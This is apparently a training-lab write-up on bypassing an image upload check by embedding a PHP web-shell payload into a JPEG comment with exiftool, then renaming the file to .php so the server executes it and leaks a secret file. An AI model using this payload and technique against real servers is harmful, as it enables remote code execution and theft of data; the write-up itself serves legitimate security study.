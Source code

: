 *This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.
To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.
You can log in to your own account using the following credentials: wiener:peter *

Decided to insert a malicious script into an image using `exiftool`:
`exiftool -comment="<?php echo '123 '.file_get_contents('/home/carlos/secret').' 123 ';?>" image.jpg`
```
┌──(roshan㉿roshan)-[~/BSCP/file_upload]
└─$ exiftool image.jpg                                                                                  
ExifTool Version Number         : 12.76
File Name                       : image.jpg
...
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : <?php echo '123 '.file_get_contents('/home/carlos/secret').' 123 ';?>
...
```
The `123` is to separate the secret from the rest of the characters in the image. 

After playing around, I found that the application had no verification of the file extension, but was able to check the contents of the file, ensuring the dimensions are that of a `.jpg` file.

I converted the `.jpg` file to `.php` file so that the script is executed:
```
┌──(roshan㉿roshan)-[~/BSCP/file_upload]
└─$ cp image.jpg image.php
```

I then uploaded the file to the page, checking the `GET` request to retrieve the image, finding the following:
![Screenshot 2024-05-13 at 3.48.43 PM](images/Screenshot%202024-05-13%20at%203.48.43%20PM.png)
